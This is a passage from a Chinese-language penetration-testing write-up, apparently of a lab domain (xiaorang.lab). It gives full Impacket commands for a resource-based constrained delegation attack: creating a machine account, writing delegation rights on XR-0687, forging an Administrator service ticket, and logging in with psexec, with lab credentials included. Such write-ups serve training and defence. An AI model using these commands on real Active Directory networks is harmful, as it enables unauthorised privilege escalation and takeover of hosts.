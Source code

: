 发现此用户对`XR-0687`主机有`GenericWrite`权限，可尝试 RBCD 获取管理员权限

### RBCD 攻击

```plain
proxychains python3 addcomputer.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'qwq' -computer-pass 'Qq123456.'

proxychains python3 rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'qwq$'

proxychains python3 getST.py xiaorang.lab/'qwq':'Qq123456.' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

[![](assets/1707954847-49587b97df34f6fcf27b5c4ce9d61c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165443-de105e64-c728-1.png)

而后导入票据并使用 psexecc 无密码登录即可进入

```plain
proxychains psexec.py administrator@XR-0687.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

[![](assets/1707954847-0e8a3896afffefd2010bc8b2ccbf2d03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165509-edc66c18-c728-1.png)
